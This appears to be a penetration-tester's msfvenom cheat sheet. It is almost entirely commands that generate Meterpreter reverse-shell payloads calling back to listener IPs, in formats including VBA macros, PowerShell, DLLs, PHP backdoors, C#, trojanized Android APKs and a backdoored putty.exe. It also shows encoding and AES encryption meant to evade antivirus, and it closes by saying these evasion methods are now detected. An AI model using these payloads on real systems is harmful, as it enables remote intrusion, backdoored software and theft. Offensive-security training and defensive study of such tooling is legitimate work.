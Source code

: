 # msfvenom

## msfvenom 

### Search for payload 

```csharp
msfvenom -l |grep PHP
```

### Vba x64 shellcode

```csharp
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.110.0.66 LPORT=443 EXITFUNC=thread -f vbapplication
```

### Powershell

```csharp
 msfvenom -p windows/meterpreter/reverse_https LHOST=10.110.0.66 LPORT=443 EXITFUNC=thread -f ps1
```

### Generate a Dll 

```csharp
sudo msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -f dll -o /srv/http/nice.dll
```

### php payload 

```csharp
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.7.1 LPORT=8080 -f raw -o ./backdoor.php
```

#### **Other example**

```csharp
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.52.137 LPORT=8080 -f raw -o ~/vulnhub/straper/evilsh.php
cat evilsh.php |xxd -ps |tr -d '\n'
```

### Csharp payload

```csharp
msfvenom -p windows/meterpreter/reverse_tcp -f csharp LHOST=<YOUR LOCAL IP> LPORT=<YOUR LOCAL PORT>
```

### Android payload

```csharp
msfvenom -x originalAPK -p android/meterpreter/reverse_tcp LHOST=192.168.1.60 LPORT=4444 -k -o mybackdoor.apk
sudo apkwash -p android/meterpreter/reverse_https LHOST=192.168.1.60 -n -x Bubble.apk --verbose
```

### Windows exec

```csharp
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.16 -e x86/shikata_ga_nai -i 6 -b "\x00" -f exe -o putty.exe
```

## Payload encoding 

### encoders

```csharp
msfvenom --list encoders
```

### 32 bits x86/shikata\_ga\_nai

```text
msfvenom -p  windows/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x86/shikata_ga_nai -f exe -o msf32.exe
```

### 64 bits x64/zutto\_dekiru

```text
 msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru  -f exe -o msf64.exe
```

### x86/xor\_dynamic

```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=9001 --encoder x86/xor_dynamic -f csharp
```

### Template and encoding

* use -x and a executable

```csharp
msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru  -f exe -o msf64.exe
```

### Encryption

```csharp
msfvenom --list encryption
msfvenom -p  windows/x64/meterpreter/reverse_https  LHOST=10.110.0.66 LPORT=443 -e x64/zutto_dekiru --encrypt aes256 --encrypt-key ldskflsfk121kl342k34  -f exe -o msf64.exe
```

{% hint style="warning" %}
Note : All theses techniques are useless at this time. Decryption is static so everything get flagged.
{% endhint %}



